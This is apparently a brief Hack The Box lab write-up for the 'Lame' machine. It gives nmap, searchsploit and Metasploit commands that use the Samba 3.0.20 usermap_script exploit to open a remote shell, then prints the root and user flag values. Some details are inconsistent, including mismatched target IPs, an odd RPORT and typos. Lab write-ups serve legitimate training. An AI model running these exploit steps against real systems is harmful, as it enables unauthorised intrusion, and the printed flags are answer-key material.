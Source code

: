 # Hackthebox Lab - LAME

## Solution

I scanned the machine with nmap

	sudo nmap -p- -T4 -A 10.10.10.209 > nmap.output

And found two services ftr and samba. The ftp could not be compremised using metasploit but with samba

	searchsploit samba 3.0.20

We could see that there was an exploit active that could be done using metasploit

	search samba 3.0.20
	use exploit/multi/samba/usermap_script
	set RHOST 10.10.10.3
	set RPORT 443
	set LHOST 10.10.14.22.
	set LPORT 1234
	run

I got a remote shell to the machine and search through the files with the hashes:
	
	cat /root/root.txt
	bbe8b2bd2cf96a070d2569a6a1e0d87e
	cat /home/makis/user.txt
	488ba23bf7284cbb855be8b981e28b11
